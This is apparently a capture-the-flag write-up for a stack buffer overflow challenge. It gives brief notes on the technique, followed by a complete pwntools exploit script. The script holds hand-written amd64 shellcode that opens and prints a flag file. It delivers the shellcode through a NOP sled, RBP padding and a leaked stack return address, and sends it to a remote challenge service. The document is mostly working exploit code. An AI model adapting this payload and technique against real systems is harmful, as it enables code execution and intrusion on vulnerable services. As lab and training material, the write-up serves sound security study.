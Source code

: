 * make a bufferoverflow to overwrite the ret addr to the random addr within stack which can **be writable**
* put shellcode in the rdn addr in the stack, since its random, need **nop sled** to reach the shellcode
* so payload = nopsled_padding + shellcode + padding_rbp + ret_address

```
from pwn import *
import struct


def interact_with_process(binary_path, host=None, port=None):
    # Start the process
    if host and port:
        p = remote(host, port)
    else:
        p = process(binary_path)

    context.arch = 'amd64'


    shellcode = asm('''
           XOR RAX, RAX
           MOV RAX, 0x47414C462F
           PUSH RAX
           MOV RDI, RSP


           XOR RSI, RSI
           XOR RDX, RDX
           MOV RAX, 2
           SYSCALL

           MOV RDI, RAX
           MOV RSI, RSP
           MOV RDX, 200
           XOR RAX, RAX
           SYSCALL

           MOV RDI, 1
           MOV RSI, RSP
           MOV RDX, 200
           MOV RAX, 1
           SYSCALL

           XOR RDI, RDI
           MOV RAX, 60
           SYSCALL

       ''')

    padding_size = (0x2000 - len(shellcode))

    padding = b"\x90" * padding_size

    padding_rbp = b"A" * 8
    # print('padding_size is :', padding_size)

    # print("Shellcode: ", shellcode.hex())

    p.recvuntil(b'Here is a random stack address: ')
    rdn_addr_str = p.recvline().strip(b'\n')
    rdn_addr = int(rdn_addr_str, 16)
    ret_address = p64(rdn_addr)
    # print(f"Random stack address: {ret_address}")

    payload = padding + shellcode + padding_rbp + ret_address
    # print('payload:', payload)

    # Send the payload
    p.sendline(payload)
    p.interactive()


# Example usage
interact_with_process('', 'lol', 22301)

```
